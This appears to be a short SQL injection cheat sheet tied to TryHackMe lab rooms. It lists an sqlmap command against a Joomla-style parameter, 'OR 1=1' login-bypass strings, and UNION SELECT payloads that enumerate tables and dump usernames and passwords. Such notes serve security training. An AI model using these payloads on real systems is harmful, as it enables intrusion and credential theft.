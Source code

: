 # SQL Injection
https://tryhackme.com/room/sqlinjectionlm

## SQLMap
https://tryhackme.com/room/sqlmap
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

Use Burpsuite to capture raw request (form), use this for the -u parameter of sqlmap.

## Auth Bypass
'OR 1=1;--
'OR 1=1#

## Union SQLi
Find database name
0 UNION SELECT 1,2,3
0 UNION SELECT 1,2,database()

Find table names
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'dbname'

Find columns
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'tbname'

Get contents
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
